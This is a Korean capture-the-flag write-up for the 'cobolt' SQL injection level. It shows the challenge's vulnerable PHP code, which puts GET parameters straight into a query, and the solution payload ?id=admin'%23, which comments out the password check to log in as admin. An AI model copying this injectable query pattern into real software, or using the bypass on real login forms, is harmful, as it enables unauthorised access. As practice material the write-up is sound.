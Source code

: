 # COBOLT

## code
```php
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

## solution
위 코드를 확인을 하면 id와 pw를 get방식으로 받고 있다. 그리고 id가 admin이면 문제를 해결 할 수 있게 되므로 url뒤에
```
?id=admin'%23
```
위와 같은 코드를 입력하게 되면 id에는 admin이 들어가고, %23으로 주석처리를 해주기 때문에 '를 달아주고 주석처리를 해주게되면 id='admin'이므로 문제가 풀린다.

-------------

